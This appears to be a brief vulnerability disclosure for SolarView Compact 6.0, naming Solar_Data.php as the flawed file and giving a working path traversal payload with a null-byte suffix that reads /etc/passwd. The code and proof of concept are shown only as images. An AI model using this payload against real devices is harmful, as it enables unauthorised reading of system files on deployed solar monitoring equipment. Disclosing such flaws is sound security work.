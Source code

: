# SolarView_Compact_6.0_文件读取
### Vulnerability code is Solar_Data.php

![image](https://user-images.githubusercontent.com/72059221/169178411-575f2e6d-15a4-4e24-8c02-fe304cd13f7f.png)

![image](https://user-images.githubusercontent.com/72059221/169178472-6e23e634-6aef-4812-ac96-ee40c545f293.png)


### Payload

```
../../../../../../../etc/passwd%00.csv
```

### POC
 
![6UbozyMqlQ](https://user-images.githubusercontent.com/72059221/169178359-40449bf5-9981-4e15-a05e-c71fd8f5670a.jpg)
